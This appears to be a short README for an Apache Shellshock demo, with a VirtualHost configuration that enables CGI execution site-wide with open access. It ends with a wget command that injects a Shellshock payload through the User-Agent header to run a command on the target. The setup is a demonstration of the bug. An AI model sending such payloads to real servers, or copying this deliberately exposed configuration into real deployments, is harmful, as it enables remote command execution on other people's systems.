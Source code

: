 Shellshock demo root directory for Apache

- index.cgi is being served, also man.cgi and man1.cgi
- default-site needs the following defintions

<VirtualHost *:80>
	ServerAdmin webmaster@localhost

	DocumentRoot /var/www

	<Directory />
	        AddHandler cgi-script .cgi
                DirectoryIndex index.cgi
		Options FollowSymLinks +ExecCGI
		AllowOverride None
		Order allow,deny
		allow from all
	</Directory>
	<Directory /var/www/>
	        AddHandler cgi-script .cgi
                DirectoryIndex index.cgi
		Options Indexes FollowSymLinks MultiViews +ExecCGI
		AllowOverride None
		Order allow,deny
		allow from all
	</Directory>

https://en.wikipedia.org/wiki/Shellshock_(software_bug)
wget -U "() { test;};/usr/bin/touch /tmp/VULNERABLE" myserver/cgi-bin/test

`
